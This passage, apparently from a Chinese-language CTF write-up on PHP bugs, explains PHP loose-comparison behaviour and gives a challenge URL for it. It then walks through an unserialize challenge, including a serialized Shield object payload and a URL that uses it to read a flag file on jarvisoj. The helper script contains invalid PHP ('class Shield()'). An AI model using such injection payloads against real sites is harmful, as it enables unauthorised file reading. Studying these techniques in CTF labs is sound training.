 ```
可以验证：
<?php
$str="s6s";
if($str==0){ echo "返回了true.";}
?>
```
要字符串与数字判断不转类型方法有：
- 方法一：
`$str="字符串";if($str===0){   echo "返回了true.";} `

- 方法二：
`$str="字符串";if($str=="0"){   echo "返回了true.";} ,`

此题构造：`http://127.0.0.1/php_bug/25.php?which=aa`

资料：

- [PHP中字符串和数字 0 比较为什么返回true？](https://zhidao.baidu.com/question/336186893.html)

## 26 unserialize()序列化

说明`flag`在`pctf.php`，但`showimg.php`中不允许直接读取`pctf.php`，只有在`index.php`中可以传入变量`class`
，`index.php`中`Shield`类的实例`$X = unserialize($g)`，`$g = $_GET['class'];`，`$X`中不知`$filename`变量，但需要找的是：`$filename = "pctf.php"`，现`$X`已知，求传入的`class`变量值。
可以进行序列化操作：
```
<!-- answer.php -->
<?php

require_once('shield.php');
$x = class Shield();
$g = serialize($x);
echo $g;

?>

<!-- shield.php -->
<?php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = 'pctf.php') {
            $this -> file = $filename;
        }
        
        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE  
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
        }
    }
?>

```
得到：
`O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`
构造：
`http://web.jarvisoj.com:32768/index.php?class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`

